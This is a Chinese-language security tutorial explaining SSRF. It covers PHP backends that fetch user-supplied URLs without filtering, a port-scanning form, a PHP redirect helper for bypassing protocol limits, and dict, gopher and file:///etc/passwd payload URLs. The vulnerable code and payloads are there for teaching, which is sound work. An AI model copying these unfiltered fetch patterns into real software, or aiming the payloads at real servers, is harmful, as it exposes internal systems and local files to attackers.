SSRF 服务端请求伪造
===================

SSRF 简介
---------

SSRF，Server-Side Request Forgery，服务端请求伪造，是一种由攻击者构造形成由服务器端发起请求的一个漏洞。一般情况下，SSRF 攻击的目标是从外网无法访问的内部系统。

漏洞形成的原因大多是因为服务端提供了从其他服务器应用获取数据的功能且没有对目标地址作过滤和限制。

攻击者可以利用 SSRF 实现的攻击主要有 5 种：

1. 可以对外网、服务器所在内网、本地进行端口扫描，获取一些服务的 banner 信息
2. 攻击运行在内网或本地的应用程序（比如溢出）
3. 对内网 WEB 应用进行指纹识别，通过访问默认文件实现
4. 攻击内外网的 web 应用，主要是使用 GET 参数就可以实现的攻击（比如 Struts2，sqli 等）
5. 利用 ``file`` 协议读取本地文件等

SSRF 漏洞出现的场景
-------------------

-  能够对外发起网络请求的地方，就可能存在 SSRF 漏洞
-  从远程服务器请求资源（Upload from URL，Import & Export RSS Feed）
-  数据库内置功能（Oracle、MongoDB、MSSQL、Postgres、CouchDB）
-  Webmail 收取其他邮箱邮件（POP3、IMAP、SMTP）
-  文件处理、编码处理、属性信息处理（ffmpeg、ImageMagic、DOCX、PDF、XML）

常用的后端实现
--------------

1. ``file_get_contents``

   .. code-block:: php
   
       <?php
       if (isset($_POST['url'])) { 
           $content = file_get_contents($_POST['url']); 
           $filename ='./images/'.rand().';img1.jpg'; 
           file_put_contents($filename, $content); 
           echo $_POST['url']; 
           $img = "<img src=\"".$filename."\"/>"; 
       }
       echo $img;
       ?>

这段代码使用 ``file_get_contents`` 函数从用户指定的 URL 获取图片。然后把它用一个随即文件名保存在硬盘上，并展示给用户。

2. ``fsockopen()``

   .. code-block:: php
   
       <?php 
       function GetFile($host,$port,$link) { 
           $fp = fsockopen($host, intval($port), $errno, $errstr, 30); 
           if (!$fp) { 
               echo "$errstr (error number $errno) \n"; 
           } else { 
               $out = "GET $link HTTP/1.1\r\n"; 
               $out .= "Host: $host\r\n"; 
               $out .= "Connection: Close\r\n\r\n"; 
               $out .= "\r\n"; 
               fwrite($fp, $out); 
               $contents=''; 
               while (!feof($fp)) { 
                   $contents.= fgets($fp, 1024); 
               } 
               fclose($fp); 
               return $contents; 
           } 
       }
       ?>

这段代码使用 ``fsockopen`` 函数实现获取用户制定 URL 的数据（文件或者 HTML）。这个函数会使用 socket 跟服务器建立 TCP 连接，传输原始数据。

3. ``curl_exec()``

   .. code-block:: php
   
       <?php 
       if (isset($_POST['url'])) {
           $link = $_POST['url'];
           $curlobj = curl_init();
           curl_setopt($curlobj, CURLOPT_POST, 0);
           curl_setopt($curlobj,CURLOPT_URL,$link);
           curl_setopt($curlobj, CURLOPT_RETURNTRANSFER, 1);
           $result=curl_exec($curlobj);
           curl_close($curlobj);
       
           $filename = './curled/'.rand().'.txt';
           file_put_contents($filename, $result); 
           echo $result;
       }
       ?>

使用 ``curl`` 获取数据。

阻碍 SSRF 漏洞利用的场景
------------------------

-  服务器开启 OpenSSL 无法进行交互利用
-  服务端需要鉴权（Cookies & User：Pass）不能完美利用

利用 SSRF 进行端口扫描
----------------------

根据服务器的返回信息进行判断，大部分应用不会判别端口，可通过返回的 banner 信息判断端口状态。

后端实现

.. code-block:: php

    <?php 
    if (isset($_POST['url'])) {
        $link = $_POST['url'];
        $filename = './curled/'.rand().'txt';
        $curlobj = curl_init($link);
        $fp = fopen($filename,"w");
        curl_setopt($curlobj, CURLOPT_FILE, $fp);
        curl_setopt($curlobj, CURLOPT_HEADER, 0);
        curl_exec($curlobj);
        curl_close($curlobj);
        fclose($fp);
        $fp = fopen($filename,"r");
        $result = fread($fp, filesize($filename)); 
        fclose($fp);
        echo $result;
    }
    ?>

构造一个前端页面

.. code-block:: html

    <html>
    <body>
      <form name="px" method="post" action="http://127.0.0.1/ss.php">
        <input type="text" name="url" value="">
        <input type="submit" name="commit" value="submit">
      </form>
      <script></script>
    </body>
    </html>

请求非 HTTP 的端口可以返回 banner 信息。

或可利用 302 跳转绕过 HTTP 协议的限制。

辅助脚本

.. code-block:: php

    <?php
    $ip = $_GET['ip'];
    $port = $_GET['port'];
    $scheme = $_GET['s'];
    $data = $_GET['data'];
    header("Location: $scheme://$ip:$port/$data");
    ?>

`腾讯某处 SSRF 漏洞（非常好的利用点）附利用脚本 <https://_thorns.gitbooks.io/sec/content/teng_xun_mou_chu_ssrf_lou_6d1e28_fei_chang_hao_de_.html>`_

协议利用
--------

-  Dict 协议

   ::

     dict://fuzz.wuyun.org:8080/helo:dict

-  Gopher 协议

   ::

     gopher://fuzz.wuyun.org:8080/gopher

-  File 协议

   ::

     file:///etc/passwd

参考资料
--------

-  `《Build Your SSRF EXP Autowork》猪猪侠 <http://tools.40huo.cn/#!papers.md>`_
-  `腾讯某处 SSRF 漏洞（非常好的利用点）附利用脚本 <https://_thorns.gitbooks.io/sec/content/teng_xun_mou_chu_ssrf_lou_6d1e28_fei_chang_hao_de_.html>`_
-  `bilibili 某分站从信息泄露到 ssrf 再到命令执行 <https://_thorns.gitbooks.io/sec/content/bilibilimou_fen_zhan_cong_xin_xi_xie_lu_dao_ssrf_z.html>`_
